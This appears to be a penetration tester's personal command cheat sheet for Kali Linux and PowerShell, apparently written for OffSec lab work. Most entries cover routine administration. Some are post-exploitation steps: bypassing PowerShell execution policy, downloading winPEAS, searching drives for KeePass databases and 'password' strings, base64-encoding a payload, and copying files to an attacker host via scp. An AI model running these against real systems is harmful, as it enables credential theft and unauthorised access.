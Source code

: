 Locate file by name:
```bash
locate <filename>
```

Find commands:
```bash
man -k <regex search term>
```

Find command location:
```bash
which <command>
```

Find and replace in file:
```bash
sed -i ‘s/<search term>/<replace term>/g’ <target filename>
```

Change Password:
```bash
passwd
```

Start SSH:
```bash
sudo systemctl start ssh
sudo ss -antlp | grep sshd
```

Start HTTP:
```bash
sudo systemctl start apache2
sudo ss -antlp | grep apache
```
```bash
python3 -m http.server 80
```

See All Available Services:
```bash
systemctl list-unit-files
```

Install Shit Locally:
```bash
sudo dpkg -i ./<path to .deb file>
```

Assign New Environment Variable:
```bash
export NEW-VARIABLE-NAME=VALUE-TO-ASSIGN-IT-TO
```

Inspect Existing Environment Variables:
```bash
env
```

View Session Command History:
```bash
history
```

Rerun Command From History:
```bash
!<line number of command as displayed in history>
```
```bash
!! to execute the last command run
```

Monitor CPU Usage:
```bash
watch -n 1 ps aux --sort=%cpu | head -n 10
```

Get PID:
```bash
ps | grep <thing you want to find>
```
eg.
```bash
ps | grep firefox
```

Powershell or CMD:
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo Powershell
```

Powershell 64 bit machine?
```powershell
[System.Environment]::Is64BitOperatingSystem
```

Powershell bypass script execution prevention:
```powershell
powershell -ep bypass
```

Powershell Convert to Base64:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('<insert payload here>'))
```

Powershell Convert from Base64:
```powershell
[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('<insert payload here>'))
```

Powershell download from URL:
```powershell
(New-Object System.Net.WebClient).DownloadFile("<URL>","C:\path\to\destination")
```

Alternative Powershell download from URL:
```powershell
iwr -uri http://my.url/winPEASx64.exe -Outfile winPEAS.exe
```

Powershell find Keepass file:
```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Powershell find string in files:
```powershell
Get-ChildItem -Path "C:\Users\" -Recurse -ErrorAction 'SilentlyContinue' | Select-String -Pattern "password" -ErrorAction 'SilentlyContinue' | Select LineNumber, Filename, Path
```

Powershell search in file for lines excluding keyword:
```powershell
cat NoisyLogFile.txt | Where-Object { !( $_ | Select-String "annoying string to filter" -quiet) }
```

Powershell SCP:
```powershell
scp filename.txt kali@<our IP>:/home/kali
```

RDP Connection:
```bash
xfreerdp /u:offsec /p:lab /v:192.168.123.121
```

For when the `vmmon` kernel module decides to not:
```bash
openssl req -new -x509 -newkey rsa:2048 -keyout MOK.priv -outform DER -out MOK.der -nodes -days 36500 -subj "/CN=VMware/"
```
```bash
sudo /usr/src/linux-headers-`uname -r`/scripts/sign-file sha256 ./MOK.priv ./MOK.der $(modinfo -n vmmon)
```
```bash
sudo /usr/src/linux-headers-`uname -r`/scripts/sign-file sha256 ./MOK.priv ./MOK.der $(modinfo -n vmnet)
```
```bash
sudo mokutil --import MOK.der
```
and restart.

For when clipboard between Kali and Host is fucked again for no reason:
```bash
sudo apt remove open-vm-tools
sudo apt remove open-vm-tools-desktop
sudo apt install open-vm-tools
sudo apt install open-vm-tools-desktop
```

For when we wanna close irritating dangling loopback listeners, first identify them via:
```bash
ss -ntlpu
```
This likely won't show the PID, to get that:
```bash
sudo lsof -i :<PORT_IN_QUESTION>
```
Then kill the process:
```bash
kill <PID>
```
